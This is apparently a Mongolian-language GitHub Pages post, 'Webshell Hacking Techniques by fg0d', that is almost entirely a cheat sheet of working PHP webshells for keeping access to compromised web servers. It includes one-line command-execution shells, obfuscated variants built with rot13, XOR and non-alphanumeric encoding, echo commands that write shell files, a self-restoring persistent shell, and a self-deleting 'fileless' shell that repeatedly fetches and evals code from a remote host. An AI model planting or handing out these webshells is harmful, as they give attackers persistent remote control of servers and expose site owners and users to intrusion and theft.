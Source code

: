 ```yaml
---
published: true
---
```

## Webshell Hacking Techniques by fg0d

<p align="center">
🐱‍💻 Зочилсон хүний тоо 🐱‍💻 
</p>
<p align="center">
  <img src="https://profile-counter.glitch.me/{fg0d}/count.svg">
</p>

<p align="center">
<img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hackedd.jpg">
</p>

Веб аппликэйшнрүү довтолгоо хийх үеийн **Maintaining Access** хэсэгт **Webshell** -г ашигладаг бөгөөд энэ нь тухайн серверлүү алсын зайнаас хүссэн тушаалыг биелүүлэх боломжтой болгодог.

```php
<?php system($_GET["cmd"]); ?>
<?php system($_GET[1]); ?>
<?php system("`$_GET[1]`"); ?>
<?= system($_GET[cmd]);
<?php eval($_POST[cmd]);?>
<?php echo `$_GET[1]`;
<?php echo passthru($_GET['cmd']);
<?php echo shell_exec($_GET['cmd']);
<?php eval(str_rot13('riny($_CBFG[cntr]);'));?>
<script language="php">system("id"); </script>

<?php $_GET['a']($_GET['b']); ?>
// a=system&b=ls
// a=assert&b=system("ls")

<?php array_map("ass\x65rt",(array)$_REQUEST['cmd']);?>
// .php?cmd=system("ls")

<?@extract($_REQUEST);@die($f($c));?>
// .php?f=system&c=id

<?php @include($_FILES['u']['tmp_name']);  
<form action="http://x.x.x.x/shell.php" method="POST" enctype="multipart/form-data">

<?php $x=~¾¬¬º­«;$x($_GET['a']); ?>
// not backdoor (assert)
// .php?a=system("ls")

echo "{${phpinfo()}}";

echo "${system(ls)}";

echo Y2F0IGZsYWc= | base64 -d | sh
// Y2F0IGZsYWc=   =>  cat  flag гэсэн base64 шүү

echo -e "<?php passthru(\$_POST[1])?>;\r<?php echo 'A PHP Test ';" > shell.php
// cat shell.php
// <?php echo 'A PHP Test ';" ?>

echo ^<?php eval^($_POST['a']^); ?^> > a.php
// Windows echo Export a sentence

<?php fwrite(fopen("gggg.php","w"),"<?php system(\$_GET['a']);");

<?php
header('HTTP/1.1 404');
ob_start();
phpinfo();
ob_end_clean();
?>

<?php 
// No echo backdoor  
// e.g. ?pass=file_get_contents('http://kaibro.tw/test')
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
?>

<?=
// Webshell without alphanumeric
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");

A=fl;B=ag;cat $A$B
```

## Webshell resident memory

```php
<?php
    ignore_user_abort(true);  // Ignore disconnection
    set_time_limit(0);  // Set no upper limit of execution time
    $file = 'shell.php';
    $code = '<?php eval($_POST[a]);?>';
    while(md5(file_get_contents($file)) !== md5($code)) {
        if(!file_exists($file)) {
            file_put_contents($file, $code);
        }
        usleep(50);
    }
?>

```

## Fileless webshell

```php
<?php  
    unlink(__FILE__);  
    ignore_user_abort(true);  
    set_time_limit(0);  
    $remote_file = 'http://xxx/xxx.txt';  
    while($code = file_get_contents($remote_file)){  
        @eval($code);  
        sleep(5);  
    };  

?>  
```

